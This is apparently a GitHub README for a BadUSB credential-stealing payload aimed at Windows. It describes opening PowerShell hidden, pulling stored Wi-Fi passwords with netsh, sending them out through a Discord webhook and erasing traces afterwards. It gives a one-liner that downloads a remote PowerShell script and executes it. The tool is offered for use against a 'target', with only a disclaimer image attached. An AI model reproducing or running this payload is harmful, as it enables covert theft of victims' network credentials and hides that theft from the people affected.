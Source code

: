 # WLAN Windows Password - BadUSB ✅

A script used to stole target WLAN Passwords.


**Category**: WLAN, Credentials

<div align=center>

<img src="https://raw.githubusercontent.com/Zenin0/Glitter_Scripts/main/main/img/logo-repository-2_0.gif?token=GHSAT0AAAAAACJCV62UACYVZAHZREEX64GEZJVSP5Q" width="600" /><br>
<img src="https://raw.githubusercontent.com/Zenin0/Glitter_Scripts/main/main/img/DISCLAIMER.png?token=GHSAT0AAAAAACJCV62VALXFXVMURW4QNGGOZJVRPVQ" width="600" />

</div>

## Description

A script used to stole target WLAN Passwords.

Opens PowerShell hidden, grabs wlan passwords, saves as a cleartext in a variable and exfiltrates info via Discord Webhook.

Then it cleans up traces of what you have done after.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke 2 netsh commands
* Invoke-WebRequest will be entered in the Run Box to send the content to Discord

All
```powershell
powershell -WindowStyle Hidden -Command "iex (iwr -uri 'https://raw.githubusercontent.com/Zenin0/Glitter_Scripts/main/Credentials/W-Wifi-Passwords/W-Wifi-Passwords.ps1?token=GHSAT0AAAAAACJCV62V5276FTVUNEJL35JMZJVRJAA').Content"
```

